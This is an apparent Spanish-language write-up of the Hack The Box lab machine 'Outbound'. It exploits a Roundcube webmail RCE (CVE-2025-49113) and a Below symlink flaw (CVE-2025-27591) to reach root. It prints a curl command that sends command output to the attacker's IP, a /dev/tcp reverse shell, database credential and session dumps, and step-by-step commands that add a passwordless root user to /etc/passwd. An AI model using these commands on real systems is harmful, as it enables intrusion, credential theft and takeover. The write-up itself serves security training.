







## Box Info

| Name                  | Outbound         | 
| :-------------------- | ---------------: |
| Release Date          | 12 Jul, 2025     |
| OS                    | Linux            |
| Rated Difficulty      | Easy             |

- Machine Information

As is common in real life pentests, you will start the Outbound box with credentials for the following account tyler / LhKL1o9Nm3X2

```zsh
ping -c 3 10.10.11.77
PING 10.10.11.77 (10.10.11.77) 56(84) bytes of data.
64 bytes from 10.10.11.77: icmp_seq=1 ttl=63 time=128 ms
64 bytes from 10.10.11.77: icmp_seq=2 ttl=63 time=129 ms
64 bytes from 10.10.11.77: icmp_seq=3 ttl=63 time=128 ms
```

## Recon

```zsh
sudo nmap -p- --open --min-rate 5000 -n -vv -Pn 10.10.11.77 -oG allPorts
```

```zsh
nmap -sCV -p 22,80 10.10.11.77 -oN targeted
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-20 09:05 EDT
Nmap scan report for 10.10.11.77
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://mail.outbound.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```zsh
echo "10.10.11.77 mail.outbound.htb" | sudo tee -a /etc/hosts
```

`http://mail.outbound.htb`



>Tip : [*nuclei](https://github.com/projectdiscovery/nuclei) -u http://mail.outbound.htb/* 

## CVE-2025-49113

Podemos ver la version de roundcube webmail en el aparto de about.


Si realizamos una busqueda de algun exploit encontraremos lo siguiente:

https://www.offsec.com/blog/cve-2025-49113/

Nos habla de un RCE en las versiones (< 1.5.10 and 1.6.0–1.6.10) que permite a usuarios autenticados ejecutar código remoto mediante una falla de deserialización de objetos PHP, provocada por una validación incorrecta del parámetro `_from` .

Si buscamos alguna PoC para explotar este RCE:

https://github.com/hakaioffsec/CVE-2025-49113-exploit

```zsh
php CVE-2025-49113.php http://mail.outbound.htb/ tyler LhKL1o9Nm3X2 'curl http://10.10.14.18/$(id | base64 -w0)'
```

En modo servidor con python para recibir la respuesta:



```zsh
echo "dWlkPTMzKHd3dy1kYXRhKSBnaWQ9MzMod3d3LWRhdGEpIGdyb3Vwcz0zMyh3d3ctZGF0YSkK" | base64 -d; echo

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Tyler

- Reverse Shell

```zsh
php CVE-2025-49113.php http://mail.outbound.htb/ tyler LhKL1o9Nm3X2 "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.18/443 0>&1'"

[+] Starting exploit (CVE-2025-49113)...
[*] Checking Roundcube version...
[*] Detected Roundcube version: 10610
[+] Target is vulnerable!
[+] Login successful!
[*] Exploiting...
```

Nos encontramos en un contenedor docker.

```zsh
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0@if4: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 6a:51:1a:8b:1b:ef brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```

Encontramos 3 usuarios, de los cuales solo tyler podriamos acceder pues tenemos sus credenciales.



```
su tyler
password: LhKL1o9Nm3X2
```



subimos LinPEAS.sh para enumerar formas de escalar privilegios.

```zsh
[+] Searching mysql credentials and exec
From '/etc/mysql/mariadb.conf.d/50-server.cnf' Mysql user: 
Found readable /etc/mysql/my.cnf
[client-server]
socket = /run/mysqld/mysqld.sock
!includedir /etc/mysql/conf.d/
!includedir /etc/mysql/mariadb.conf.d/
Found lib_mysqludf_sys.so:
If you can login in MySQL you can execute commands doing: SELECT sys_eval('id');
Found lib_mysqludf_sys.so:
If you can login in MySQL you can execute commands doing: SELECT sys_eval('id');
```

Lo unico interesante o que llama la atencion es que hay un mysql ejecutandose localmente.
Por otro lado si buscamos algun archivo config para el servicio Webmail podemos encontrar una ruta familiar `/var/www/html/roundcube/config/config.inc.php` de la cual obtenemos las credenciales del mysql.



```zsh
mysql -u roundcube -p"RCDBPass2025" -h localhost roundcube -e 'use roundcube;select * from users;' -E
```

```
*************************** 1. row ***************************
             user_id: 1
            username: jacob
           mail_host: localhost
             created: 2025-06-07 13:55:18
          last_login: 2025-06-11 07:52:49
        failed_login: 2025-06-11 07:51:32
failed_login_counter: 1
            language: en_US
         preferences: a:1:{s:11:"client_hash";s:16:"hpLLqLwmqbyihpi7";}
*************************** 2. row ***************************
             user_id: 2
            username: mel
           mail_host: localhost
             created: 2025-06-08 12:04:51
          last_login: 2025-06-08 13:29:05
        failed_login: NULL
failed_login_counter: NULL
            language: en_US
         preferences: a:1:{s:11:"client_hash";s:16:"GCrPGMkZvbsnc3xv";}
*************************** 3. row ***************************
             user_id: 3
            username: tyler
           mail_host: localhost
             created: 2025-06-08 13:28:55
          last_login: 2025-07-20 14:29:20
        failed_login: 2025-06-11 07:51:22
failed_login_counter: 1
            language: en_US
         preferences: a:1:{s:11:"client_hash";s:16:"Y2Rz3HTwxwLJHevI";}
```

### Session Dump

```zsh
mysql -u roundcube -p"RCDBPass2025" -h localhost roundcube -e 'use roundcube;select * from session;' -E
```

```zsh
sess_id: 6a5ktqih5uca6lj8vrmgh9v0oh
changed: 2025-06-08 15:46:40
     ip: 172.17.0.1
   vars: bGFuZ3VhZ2V8czo1OiJlbl9VUyI7aW1hcF9uYW1lc3BhY2V8YTo0OntzOjg6InBlcnNvbmFsIjthOjE6e2k6MDthOjI6e2k6MDtzOjA6IiI7aToxO3M6MToiLyI7fX1zOjU6Im90aGVyIjtOO3M6Njoic2hhcmVkIjtOO3M6MTA6InByZWZpeF9vdXQiO3M6MDoiIjt9aW1hcF9kZWxpbWl0ZXJ8czoxOiIvIjtpbWFwX2xpc3RfY29uZnxhOjI6e2k6MDtOO2k6MTthOjA6e319dXNlcl9pZHxpOjE7dXNlcm5hbWV8czo1OiJqYWNvYiI7c3RvcmFnZV9ob3N0fHM6OToibG9jYWxob3N0IjtzdG9yYWdlX3BvcnR8aToxNDM7c3RvcmFnZV9zc2x8YjowO3Bhc3N3b3JkfHM6MzI6Ikw3UnYwMEE4VHV3SkFyNjdrSVR4eGNTZ25JazI1QW0vIjtsb2dpbl90aW1lfGk6MTc0OTM5NzExOTt0aW1lem9uZXxzOjEzOiJFdXJvcGUvTG9uZG9uIjtTVE9SQUdFX1NQRUNJQUwtVVNFfGI6MTthdXRoX3NlY3JldHxzOjI2OiJEcFlxdjZtYUk5SHhETDVHaGNDZDhKYVFRVyI7cmVxdWVzdF90b2tlbnxzOjMyOiJUSXNPYUFCQTF6SFNYWk9CcEg2dXA1WEZ5YXlOUkhhdyI7dGFza3xzOjQ6Im1haWwiO3NraW5fY29uZmlnfGE6Nzp7czoxNzoic3VwcG9ydGVkX2xheW91dHMiO2E6MTp7aTowO3M6MTA6IndpZGVzY3JlZW4iO31zOjIyOiJqcXVlcnlfdWlfY29sb3JzX3RoZW1lIjtzOjk6ImJvb3RzdHJhcCI7czoxODoiZW1iZWRfY3NzX2xvY2F0aW9uIjtzOjE3OiIvc3R5bGVzL2VtYmVkLmNzcyI7czoxOToiZWRpdG9yX2Nzc19sb2NhdGlvbiI7czoxNzoiL3N0eWxlcy9lbWJlZC5jc3MiO3M6MTc6ImRhcmtfbW9kZV9zdXBwb3J0IjtiOjE7czoyNjoibWVkaWFfYnJvd3Nlcl9jc3NfbG9jYXRpb24iO3M6NDoibm9uZSI7czoyMToiYWRkaXRpb25hbF9sb2dvX3R5cGVzIjthOjM6e2k6MDtzOjQ6ImRhcmsiO2k6MTtzOjU6InNtYWxsIjtpOjI7czoxMDoic21hbGwtZGFyayI7fX1pbWFwX2hvc3R8czo5OiJsb2NhbGhvc3QiO3BhZ2V8aToxO21ib3h8czo1OiJJTkJPWCI7c29ydF9jb2x8czowOiIiO3NvcnRfb3JkZXJ8czo0OiJERVNDIjtTVE9SQUdFX1RIUkVBRHxhOjM6e2k6MDtzOjEwOiJSRUZFUkVOQ0VTIjtpOjE7czo0OiJSRUZTIjtpOjI7czoxNDoiT1JERVJFRFNVQkpFQ1QiO31TVE9SQUdFX1FVT1RBfGI6MDtTVE9SQUdFX0xJU1QtRVhURU5ERUR8YjoxO2xpc3RfYXR0cmlifGE6Njp7czo0OiJuYW1lIjtzOjg6Im1lc3NhZ2VzIjtzOjI6ImlkIjtzOjExOiJtZXNzYWdlbGlzdCI7czo1OiJjbGFzcyI7czo0MjoibGlzdGluZyBtZXNzYWdlbGlzdCBzb3J0aGVhZGVyIGZpeGVkaGVhZGVyIjtzOjE1OiJhcmlhLWxhYmVsbGVkYnkiO3M6MjI6ImFyaWEtbGFiZWwtbWVzc2FnZWxpc3QiO3M6OToiZGF0YS1saXN0IjtzOjEyOiJtZXNzYWdlX2xpc3QiO3M6MTQ6ImRhdGEtbGFiZWwtbXNnIjtzOjE4OiJUaGUgbGlzdCBpcyBlbXB0eS4iO311bnNlZW5fY291bnR8YToyOntzOjU6IklOQk9YIjtpOjI7czo1OiJUcmFzaCI7aTowO31mb2xkZXJzfGE6MTp7czo1OiJJTkJPWCI7YToyOntzOjM6ImNudCI7aToyO3M6NjoibWF4dWlkIjtpOjM7fX1saXN0X21vZF9zZXF8czoyOiIxMCI7
```

### Decrypt

https://gchq.github.io/CyberChef

```zsh
From base64

username|s:5:"jacob";
password|s:32:"L7Rv00A8TuwJAr67kITxxcSgnIk25Am/
auth_secret|s:26:"DpYqv6maI9HxDL5GhcCd8JaQQW";
request_token|s:32:"TIsOaABA1zHSXZOBpH6up5XFyayNRHaw";
```

En este punto me perdí, despues un tiempo recorde que habia visto un script llamado `decrypt.sh` solo se que lo vi al enumerar, asi que volvi a enumerar hasta encontrar el script.

```zsh
tyler@mail:/var/www/html/roundcube/bin$ ./decrypt.sh L7Rv00A8TuwJAr67kITxxcSgnIk25Am/

595mO8DmwGeD
```

## Jacob

Para validar si realmente es la contraseña logeamos como jacob.



Leemos el mail que tiene jacob.

```
Due to the recent change of policies your password has been changed.

Please use the following credentials to log into your account: gY4Wr3a1evp4

Remember to change your password when you next log into your account.

Thanks!
```

Ahora podemos logear con ssh.

```
We have been experiencing high resource consumption on our main server.
For now we have enabled resource monitoring with Below and have granted you privileges to inspect the the logs.
Please inform us immediately if you notice any irregularities.
```

https://csirt.telconet.net/comunicacion/noticias-seguridad/nueva-vulnerabilidad-detectada-en-la-herramienta-below-para-linux/

## CVE-2025-27591

- PrivEsc

```zsh
jacob@outbound:/tmp$ sudo -l

Matching Defaults entries for jacob on outbound:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jacob may run the following commands on outbound:
    (ALL : ALL) NOPASSWD: /usr/bin/below *, !/usr/bin/below --config*, !/usr/bin/below --debug*, !/usr/bin/below -d*
```

- Automated

https://github.com/BridgerAlderson/CVE-2025-27591-PoC?tab=readme-ov-file

- Manual

https://security.opensuse.org/2025/03/12/below-world-writable-log-dir.html
https://github.com/rvizx/CVE-2025-27591

```zsh

u=$(id -un)

Eliminamos el archivo de registro original y prepáramos para colocar el enlace simbólico malicioso

rm -f /var/log/below/error_$u.log

Creamos un enlace simbólico para apuntar al archivo /etc/passwd hacia error_$u.log

ln -sf /etc/passwd /var/log/below/error_$u.log

Construimos una línea de usuario root falsa con el nombre de usuario pwned, sin contraseña (::), UID y GID son ambos 0, es decir, autoridad root.

echo 'pwned::0:0:root:/root:/bin/bash' > /tmp/root_entry

Escribimos la cuenta maliciosa en /etc/passwd (escritura indirecta a través de enlaces simbólicos).

cat /tmp/root_entry > /var/log/below/error_$u.log

Paso clave: ejecutar el siguiente comando, que escribe el registro en /var/log/below/error_$u.log con privilegios de root. En este punto, el contenido controlado por el atacante se escribe en /etc/passwd.

sudo /usr/bin/below snapshot --begin now

Intentamos iniciar sesión como root con el usuario pwn recién creado (UID 0)

su pwned
```

*Se sobrescribe el /etc/passwd y se agrega un nuevo usuario con UID 0*

